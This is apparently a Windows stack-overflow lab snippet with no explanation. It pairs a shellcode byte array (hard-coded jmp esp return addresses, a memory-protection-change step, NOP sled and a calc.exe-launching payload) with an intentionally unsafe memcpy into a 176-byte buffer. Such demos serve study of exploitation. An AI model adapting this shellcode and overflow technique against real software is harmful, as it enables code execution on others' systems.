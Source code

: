 ``` 
"\xc6\xc6\xeb\x77"   //77ebc6c6  push esp jmp eax  
  
"\x90\x90\x90\x90"  
"\x90\x90\x90\x90"  
"\xD9\x1A\x80\x7C"//修改内存属性  
  
"\x90\x90\x90\x90"  
"\xEB\x30\x5A\x7D"//jmp esp  
  
"\x90\x90\x90\x90"  
"\x90\x90\x90\x90"  
"\x90\x90\x90\x90"  
"\x90\x90\x90\x90"  
  
"\x90\x90\x90\x90"  
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"  
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"  
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"  
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"  
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"  
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"  
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"  
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"  
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"  
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"  
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"  
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"  
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"  
;  
void test()  
{  
    char tt[176];  
    printf("ttttttttttttttttttttt\n");  
    memcpy(tt,shellcode,sizeof(shellcode) + 1);  
}  
int main()  
{  
    HINSTANCE hInst = LoadLibrary("shell32.dll");  
    char temp[200];  
    test();  
    return 0;  
}  
```





  [1]: ./images/1.png
  [2]: ./images/2.png 
